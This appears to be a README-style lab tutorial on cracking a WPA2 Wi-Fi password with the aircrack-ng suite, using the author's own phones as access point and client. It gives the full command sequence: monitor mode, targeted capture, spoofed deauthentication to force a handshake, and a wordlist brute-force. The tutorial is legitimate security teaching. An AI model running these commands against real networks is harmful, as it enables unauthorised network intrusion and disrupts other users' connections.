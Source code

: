 # WIFI Cracking

## Requirements
* [aircrack-ng](https://www.kali.org/tools/aircrack-ng/) - `Already installed in Kali distro`

## Demo setup

For the following demo I'm using a Lab setup to simulate a `real world` use case:
* Access point (AP)
    * Android device #1 with AP mode enabled with WPA2
    * Set an easy password like `slipknot` or `metallica`
* WIFI Client
    * Android device #2
* Attacker
    * Kali Linux VM with an external USB network adapter [TL-WN722N](https://www.amazon.es/TP-LINK-TL-WN722NV2-Adaptador-inal%C3%A1mbrico-10-6-10-11/dp/B002SZEOLG)

![](./img/demo_setup_wifi.png)

## Attack!

1. Setup the network adapter in monitor mode or promiscous

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0 
```

2. Do a quick scan to get information about AP's nearby

```bash
sudo airodump-ng wlan0mon
```
![](./img/scan.png) 


3. Start a sniffing session capturing all packets directed to our target.

```bash
sudo airodump-ng -w demo -c 11 --bssid E6:10:XX:XX:XX:XX wlan0mon
```

![](./img/capture_wpa.png)

> Keep the session open. Next we will force a reconnection to gather a EAPOL handshake


4. Send a deauthentication packet to our target, spoofing a client already connected to the AP. This action will force a reconnection, sending a 4-Way Handshake (EAPOL) which we will use to crack the AP PSK

```bash
sudo aireplay-ng --deauth 2 -a E6:10:XX:XX:XX:XX -c 92:8C:XX:XX:XX:XX wlan0mon
```

![](./img/handshake.png)

> Notice the client is being disconnected from the network. After an automatic reconnection, we captured the EAPOL handshake!


5. Just to make sure, let's check the pcap file with wireshark to search for handshakes

```bash
wireshark demo-03.cap & 
```

![](./img/wireshark.png)

6. Now, we will perform a brute-force attack over the handshake captured using an existing dictionary

```bash
aircrack-ng demo-03.cap -w /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
```

![](./img/aircrack.png)

Done! You cracked the password `slipknot` a super secure one ;)


## Cleanup

Disable the monitor mode and restore networking processes

```bash
sudo airmon-ng stop wlan0mon
sudo service networking restart
sudo service NetworkManager restart
```

## References
- https://www.aircrack-ng.org/doku.php
- https://blogs.dsu.edu/digforce/2023/07/11/penetrating-networks-by-cracking-wpa2/
- https://book.hacktricks.wiki/en/generic-methodologies-and-resources/pentesting-wifi/index.html#wpawpa2-psk 


